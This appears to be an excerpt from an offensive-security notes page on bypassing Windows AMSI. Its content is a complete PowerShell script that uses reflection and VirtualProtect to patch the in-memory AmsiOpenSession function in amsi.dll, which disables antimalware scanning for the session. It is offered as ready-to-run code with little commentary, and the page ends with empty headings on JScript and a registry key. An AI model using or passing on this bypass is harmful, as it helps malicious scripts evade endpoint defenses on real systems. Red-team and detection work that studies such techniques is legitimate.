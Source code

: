 

### Patch AmsiOpenSession

{% code title="amsiOpenSession.ps1" %}
```powershell
function lookupFunc {
    Param ($moduleName, $funcName)

    $assem = ([AppDomain]::CurrentDomain.GetAssemblies() | ? { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp = @()
    $assem.GetMethods() | % {If($_.Name -eq "GetProcAddress") {$tmp += $_}}
    return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $funcName))
}

function getDelegateType {
    Param (
        [Parameter(Position=0, Mandatory=$True)][Type[]] $argsTypes,
        [Parameter(Position=1)][Type] $retType = [Void]
    )

    $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
    $type.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $argsTypes).SetImplementationFlags('Runtime, Managed')
    $type.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $retType, $argsTypes).SetImplementationFlags('Runtime, Managed')
    return $type.CreateType()
}

[IntPtr]$funcAddr = lookupFunc amsi.dll AmsiOpenSession
$oldProtection = 0
$vp = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((lookupFunc kernel32.dll VirtualProtect), (getDelegateType @([IntPtr], [UInt32], [UInt32],[UInt32].MakeByRefType()) ([Bool])))
$vp.Invoke($funcAddr, 3, 0x40, [ref]$oldProtection)
$buf = [Byte[]] (0x48, 0x31, 0xC0)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $funcAddr, 3)
$vp.Invoke($funcAddr, 3, 0x20, [ref]$oldProtection)
```
{% endcode %}




## Jscript



### AmsiEnable Registry Key
